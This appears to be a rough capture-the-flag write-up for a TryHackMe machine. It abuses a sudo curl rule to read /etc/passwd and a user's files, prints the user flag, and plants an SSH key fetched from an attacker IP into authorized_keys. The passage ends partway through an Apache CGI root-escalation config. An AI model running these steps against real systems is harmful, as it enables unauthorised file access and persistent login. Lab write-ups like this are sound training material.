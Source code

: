 now after finding few things i got two things 
i can do sudo -l with obviously rgiskard's password and it gave this
![](https://i.imgur.com/8bY5ad8.png)

also we got that pexec is vulnerable to pwnkit which is of version 0.105
will explore later if this doesnt work

```bash
	sudo -u dolivaw /usr/bin/curl 127.0.0.1/ file:///../../../etc/passwd

```

![](https://i.imgur.com/tOIAuUx.png)

```bash
sudo -u dolivaw /usr/bin/curl 127.0.0.1/ file:///../../../home/dolivaw/user.txt
```
```
THM{9b17d3c3e86c944c868c57b5a7fa07d8}
```
![](https://i.imgur.com/DRlLmSB.png)

```
```rgiskard@ubuntu-jammy:~$ sudo -u dolivaw /usr/bin/curl 127.0.0.1/ file:///../../../home/dolivaw/.bashrc && ll
```


![](https://i.imgur.com/ZsxxRdo.png)


sudo -u dolivaw /usr/bin/curl 127.0.0.1/ http://10.17.20.50/id_rsa.pub -o id_rsa.pub  -o /home/dolivaw/.ssh/authorized_keys


sudo -u dolivaw /usr/bin/curl 127.0.0.1/ file:///home/dolivaw/.ssh/authorized_keys 


![](https://i.imgur.com/hSNFbI3.png)

ssh -p 22 dolivaw@robots.thm -i id_rsa

![](https://i.imgur.com/r5B7Gpe.png)

and then follow this to get root shell
## Apache Local Exploit Setup (mod_cgi with `.sh` Payload)

### 🛠 Step 1: Apache Config (`apache.conf`)

Create or edit the Apache config file at `/tmp/hackroot/apache.conf`:

```apache
ServerRoot "/tmp/hackroot"
ServerName localhost
Listen 9999
PidFile /tmp/hackroot/httpd.pid
DocumentRoot "/tmp/hackroot"

# Load necessary modules
LoadModule mpm_prefork_module /usr/lib/apache2/modules/mod_mpm_prefork.so
LoadModule mime_module /usr/lib/apache2/modules/mod_mime.so
LoadModule cgi_module /usr/lib/apache2/modules/mod_cgi.so
LoadModule authz_core_module /usr/lib/apache2/modules/mod_authz_core.so
LoadModule alias_module /usr/lib/apache2/modules/mod_alias.so

# Enable CGI with .sh files
AddHandler cgi-script .sh
ScriptAlias /cgi-bin/ /tmp/hackroot/

<Directory "/tmp/hackroot">
```